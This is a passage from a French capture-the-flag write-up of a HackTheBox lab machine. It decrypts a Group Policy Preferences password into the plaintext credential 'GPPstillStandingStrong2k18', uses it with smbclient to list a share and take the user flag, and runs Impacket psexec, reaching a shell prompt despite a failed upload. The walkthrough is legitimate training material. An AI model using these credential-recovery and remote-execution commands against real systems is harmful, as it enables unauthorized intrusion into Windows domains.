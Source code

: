 En cherchant sur le web je finis par trouver exactement ce que je veux, à savoir [un script Python pour déchiffrer ce pass](https://github.com/leonteale/pentestpackage/blob/master/Gpprefdecrypt.py) :  

```plain
$ python Gpprefdecrypt.py edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

On a finalement un couple login/password qui s'avère valide. On peut ainsi accéder au partage *users* :  

```plain
$ smbclient  -U "SVC_TGS" '//10.10.10.100/users'
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\SVC_TGS's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 16:39:20 2018
  ..                                 DR        0  Sat Jul 21 16:39:20 2018
  Administrator                       D        0  Mon Jul 16 12:14:21 2018
  All Users                         DHS        0  Tue Jul 14 07:06:44 2009
  Default                           DHR        0  Tue Jul 14 08:38:21 2009
  Default User                      DHS        0  Tue Jul 14 07:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 06:57:55 2009
  Public                             DR        0  Tue Jul 14 06:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 17:16:32 2018

        10459647 blocks of size 4096. 4931883 blocks available
```

et récupérer le flag *user.txt* (86d67d8ba232bb6a254aa4d10159e983).  

Kansas City Shuffle
-------------------

Testons cet identifiant via psexec :  

```plain
$ python /usr/share/doc/python-impacket/examples/psexec.py active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] Trying protocol 445/SMB...

[*] Requesting shares on 10.10.10.100.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'Replication' is not writable.
[-] share 'SYSVOL' is not writable.
[-] share 'Users' is not writable.
[*] Uploading file WcxwBFBv.exe
[-] Error uploading file WcxwBFBv.exe, aborting.....
[-] Error performing the installation, cleaning up: 'NoneType' object has no attribute 'split'
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

